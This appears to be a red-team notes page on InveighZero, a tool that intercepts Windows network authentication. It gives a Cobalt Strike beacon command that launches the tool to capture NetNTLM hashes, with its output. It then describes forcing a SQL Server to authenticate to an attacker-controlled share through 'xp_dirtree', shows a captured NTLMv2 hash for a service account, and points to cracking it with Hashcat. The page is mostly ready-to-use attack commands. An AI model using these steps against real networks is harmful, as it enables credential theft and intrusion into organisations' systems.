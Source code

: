 # InveighZero

## [[NTLM Relaying]]
Capture NetNTLM hash
This should be run as a local admin.

ℹ InveighZero will ignore traffic coming from accounts that are generally deemed to be "uncrackable" such as computer accounts.
```beacon
beacon> execute-assembly C:\Tools\InveighZero\Inveigh\bin\Debug\Inveigh.exe -DNS N -LLMNR N -LLMNRv6 N -HTTP N -FileOutput N

[*] Inveigh 0.913 started at 2022-03-10T18:02:36
[+] Elevated Privilege Mode = Enabled
[+] Primary IP Address = 10.10.17.231
[+] Spoofer IP Address = 10.10.17.231
[+] Packet Sniffer = Enabled
[+] DHCPv6 Spoofer = Disabled
[+] DNS Spoofer = Disabled
[+] LLMNR Spoofer = Disabled
[+] LLMNRv6 Spoofer = Disabled
[+] mDNS Spoofer = Disabled
[+] NBNS Spoofer = Disabled
[+] HTTP Capture = Disabled
[+] Proxy Capture = Disabled
[+] WPAD Authentication = NTLM
[+] WPAD NTLM Authentication Ignore List = Firefox
[+] SMB Capture = Enabled
[+] Machine Account Capture = Disabled
[+] File Output = Disabled
[+] Log Output = Enabled
[+] Pcap Output = Disabled
[+] Previous Session Files = Not Found
[*] Press ESC to access console
```

## [[SQL NetNTLM Capture]]
We can use [[InveighZero]] to listen to the incoming requests (this should be run as a local admin).
1. [[InveighZero#Capture NetNTLM hash]]
2. Run `xp_dirtree` to connect the sql server to your machine running [[InveighZero]]
>EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
3. Receive hash on the attacking machine
```beacon
[+] [2022-05-14T15:33:49] TCP(445) SYN packet from 10.10.1.20:50323
[+] [2022-05-14T15:33:49] SMB(445) negotiation request detected from 10.10.1.20:50323
[+] [2022-05-14T15:33:49] SMB(445) NTLM challenge 3006547FFC8E90D8 sent to 10.10.1.20:50323
[+] [2022-05-14T15:33:49] SMB(445) NTLMv2 captured for EDU\svc_mssql from 10.10.1.20(SRV1):50323:
svc_mssql::EDU:[...snip...]
```
4. [[Hashcat#Cracking netntlmv2]]


```meta
requirements: 
results: 
opsec: 
oss: #win 
source: https://github.com/Kevin-Robertson/InveighZero
description: Inveigh is a cross-platform .NET IPv4/IPv6 machine-in-the-middle tool.
```
